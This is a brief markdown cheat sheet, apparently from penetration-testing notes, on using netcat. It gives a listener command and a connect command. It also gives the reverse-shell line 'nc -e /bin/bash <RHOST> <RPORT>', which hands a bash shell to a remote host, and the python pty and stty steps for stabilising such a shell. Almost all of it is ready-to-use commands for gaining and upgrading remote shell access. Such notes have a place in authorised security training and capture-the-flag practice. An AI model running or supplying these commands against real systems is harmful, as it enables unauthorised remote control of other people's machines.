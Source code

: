 # Netcat - NC

## Listner

```
nc -nlvp <LPORT>
```

## Connect

```
nc <RHOST> <RPORT>
```

Use `-e` to link the connection to a program 
```
nc -e /bin/bash <RHOST> <RPORT>
```


## Stabilize Reverse Shell

```
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
Ctrl z
stty raw -echo; fg
```

## Links

[Stabilize a reverse shell](https://tkcyber.com/index.php/2022/06/19/stabilize-a-reverse-shell/)
